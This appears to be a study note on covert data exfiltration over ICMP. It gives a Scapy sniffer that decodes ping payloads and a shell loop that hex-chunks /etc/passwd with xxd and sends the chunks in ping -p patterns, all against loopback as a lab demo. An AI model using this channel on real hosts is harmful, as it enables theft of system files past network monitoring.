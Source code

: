 Using [[ping]] we can use the option `-p` to send a *"pattern"* 

```bash
ping -c 1 -p 6c65206c 127.0.0.1
```

We can listen that [[Internet Control message Protocol (ICMP)]] packets with a few lines of [[Python]] we can create a [[Sniffer]] using [[Scapy]] library listening in `loopback` network interface.

```python
#!/usr/bin/python3

from scapy.all import *
import signal
import sys
import argparse

def handler(sig, frame):
    print("\n\t [!] Exiting.")
    sys.exit(1)


signal.signal(signal.SIGINT, handler)

def data_parser(packet):
    if ICMP in packet and packet[ICMP].type == 8 and hasattr(packet[ICMP], "load"):
        try:
            data = packet[ICMP].load[-4:].decode("utf-8")
            print(data, flush=True, end="")
        except Exception as e:
            print(f"\n[!] Error decoding data: {e}")

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("-i", "--iface", default="lo", help="Interface to sniff on")
    args = parser.parse_args()
    print("[*] Sniffing... Press Ctrl+C to stop.")
    sniff(iface=args.iface, filter="icmp", prn=data_parser)
```

then, with [[xxd]] you can decompose a file you want send.

```bash
xxd -d -c 4 /etc/passwd
```

`-c 4` divide the output into rows of 4 for ping convenience.

With sniffer running, we can read all result of `xxd` and send pings traces to the `loopback` interface.

```bash
xxd -p -c 4 /etc/passwd | while read line; do ping -c 1 -p $line 127.0.0.1; done
```

In the sniffer you should visualize the content.